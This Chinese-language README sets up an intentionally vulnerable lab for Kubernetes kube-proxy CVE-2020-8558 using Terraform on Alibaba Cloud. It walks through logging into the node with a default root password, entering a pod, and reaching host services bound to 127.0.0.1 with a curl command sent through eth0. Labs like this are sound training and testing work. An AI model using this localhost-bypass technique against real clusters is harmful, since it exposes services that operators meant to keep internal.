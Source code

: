 # kube-proxy CVE-2020-8558漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建kubernetes kube-proxy组件CVE-2020-8558漏洞的靶场。

使用 terraform 构建环境后，用户在容器可以通过 kubelet组件CVE-2020-8558漏洞 访问到宿主机只绑定在127.0.0.1的服务。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/kubernetes/kube-proxy/CVE-2020-8558
```

配置阿里云访问凭证

```shell
export ALICLOUD_ACCESS_KEY="LTAI5tFkmNGXXXXXXXXX"
export ALICLOUD_SECRET_KEY="ORBs2lulAHDXXXXXXXXX"
export ALICLOUD_REGION="cn-hongkong"
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/20220622-174141.jpg)

环境搭建完后，在 Outputs 处可以看到节点的访问地址。

## 漏洞利用

首先，我们先登陆到节点机器上，密码默认是 Huoxian@123

```shell
➜  ~ ssh root@8.210.237.96  // 8.210.237.96 是节点的访问地址，你需要替换成 Outputs 中的地址。
```

然后进入到已经创建好的pod shell环境

```shell
root@iZj6ce4bmwc11otulk7i3rZ:~# kubectl exec -ti test-pod -- sh      // test-pod 是pod名
sh-4.2#
```

下面就可以在pod中尝试访问宿主机上监听在 127.0.0.1 的服务了

```shell
root@iZj6ce4bmwc11otulk7i3rZ:~# netstat -antp|grep 127.0.0.1
tcp        0      0 127.0.0.1:37953         0.0.0.0:*               LISTEN      2551/containerd
tcp        0      0 127.0.0.1:41351         0.0.0.0:*               LISTEN      15900/kubelet
tcp        0      0 127.0.0.1:10248         0.0.0.0:*               LISTEN      15900/kubelet
...
```

比如，在pod可以访问到宿主机上的kubelet metrics服务

```shell
sh-4.2# curl 127.0.0.1:10249/metrics --interface eth0
# HELP apiserver_audit_event_total [ALPHA] Counter of audit events generated and sent to the audit backend.
# TYPE apiserver_audit_event_total counter
apiserver_audit_event_total 0
...
```

## 销毁环境

```shell
terraform destroy
```
